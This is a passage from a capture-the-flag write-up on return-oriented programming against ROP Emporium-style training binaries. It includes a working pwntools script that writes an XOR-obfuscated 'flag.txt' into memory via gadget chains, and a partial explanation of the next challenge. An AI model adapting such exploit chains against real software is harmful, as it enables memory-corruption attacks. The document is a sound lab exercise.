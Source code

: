 This almost worked, but there was a problem: the `x` in `flag.txt` was not being XORed. It turned out that this had to do with where the data was being written - my chosen address for the obfuscated `flag.txt` was `0x601028`, and the `x` was located at `0x60102e`. But 0x2e is `.`, which is one of the forbidden characters! We can deal with the issue by using the start address `0x601038` instead.

For the final script, we need to write the obfuscated `flag.txt` to memory, XOR each byte with 0xff to restore it, then pass it as an argument to `print_file()`.

```python
from pwn import *

pop_r12 = 0x40069c # pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
mov_r13 = 0x400634 # mov qword ptr [r13], r12 ; ret

pop_r15 = 0x4006a2 # pop r15; ret
xor_data = 0x400628 # xor byte ptr [r15], r14b ; ret

pop_rdi = 0x4006a3 # pop rdi; ret
data_addr = 0x601030 # start of .data section

print_file = 0x400620 # call print_file

xor_flag_txt = xor(b'flag.txt', b'\xff')

chal = process("./badchars")

deobfuscate_flag = b''
for addr in range(data_addr, data_addr + 8):
	deobfuscate_flag += p64(pop_r15)
	deobfuscate_flag += p64(addr)
	deobfuscate_flag += p64(xor_data)

write_flag_txt = b'a'*40 + p64(pop_r12) + xor_flag_txt + p64(data_addr) + p64(0xff) + p64(data_addr) + p64(mov_r13) 
call_print = p64(pop_rdi) + p64(data_addr) + p64(print_file)

send_str = write_flag_txt + deobfuscate_flag + call_print

f = open('fake_stdin','wb')
f.write(send_str)
f.close()
```

## fluff

Up to this point, the challenge binaries have included "useful gadgets" that do exactly what we need, which isn't very realistic. For this challenge, we are instead provided with a set of "questionable gadgets" that may be helpful, but we'll have to be more creative in how we use them.

We need to find some way to write the `flag.txt` string. There aren't many gadgets that let us store data into memory, so we'll have to work backwards from the few gadgets we have. The gadget `add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret` looks promising, since we also have `pop rbp ; ret`. This means that we can choose an arbitrary address and add the value in `ebx` to it. If we choose an address that we know will contain all zeroes, this is the same as writing the value in `ebx` to the address.
